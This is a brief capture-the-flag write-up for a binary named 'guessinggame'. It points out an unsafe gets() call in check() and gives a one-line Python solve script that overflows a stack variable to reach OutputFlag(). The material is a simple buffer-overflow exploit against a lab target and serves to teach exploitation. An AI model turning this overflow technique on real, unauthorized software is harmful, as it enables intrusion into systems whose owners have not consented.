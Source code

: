 The only function of interest in this binary is check()

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/8e61489a-0826-424e-9b40-5ff16ef3e28f)

Here we can see that they use the unsafe function gets()
We can leverage this by overflowing `local_c` to get the binary to execute the OutputFlag() function

solve script:
```bash
python -c 'print(b"a"*301)' | ./guessinggame
```
